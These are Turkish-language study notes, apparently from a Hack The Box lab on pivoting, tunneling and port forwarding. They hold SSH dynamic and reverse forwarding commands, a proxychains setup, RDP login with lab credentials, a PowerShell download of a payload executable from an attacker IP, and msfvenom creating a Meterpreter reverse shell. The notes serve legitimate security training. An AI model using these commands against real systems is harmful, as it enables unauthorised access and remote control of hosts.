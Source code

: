 ```shell-session
 ssh -D 9050 ubuntu@10.129.202.64
```

```shell-session
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

```shell-session
msf6 > search rdp_scanner
```

```shell-session
$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

4- Windows makinada payloadımızı indiriyoruz .
```powershell-session
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

5- exe dosyası çalıştırmandan önce 
```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
InternalIPofPivotHost   --> ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.228.104 -vN
Yani Ubuntunun 172.x.x.x olan ağı 

6- Son olarak meterpreter shell geldi 
![Pasted image 20241004152442.png](/img/user/resimler/Pasted%20image%2020241004152442.png)



# Meterpreter Tunneling & Port Forwarding
Şimdi, Ubuntu sunucusunda (pivot host) Meterpreter shell erişimimizin olduğu ve pivot host üzerinden numaralandırma taramaları yapmak istediğimiz, ancak Meterpreter oturumlarının bize getirdiği kolaylıklardan yararlanmak istediğimiz bir senaryoyu ele alalım. Bu gibi durumlarda, SSH port yönlendirmesine güvenmeden Meterpreter oturumumuzla bir pivot oluşturabiliriz. Aşağıdaki komutla Ubuntu sunucusu için bir Meterpreter shell oluşturabiliriz, bu da saldırı hostumuzda 8080 portunda bir shell döndürecektir.

#### Creating Payload for Ubuntu Pivot Host
```shell-session
M1R4CKCK@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```
Payload'u kopyalamadan önce, Generic Payload Handler olarak da bilinen bir [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/) başlatabiliriz.
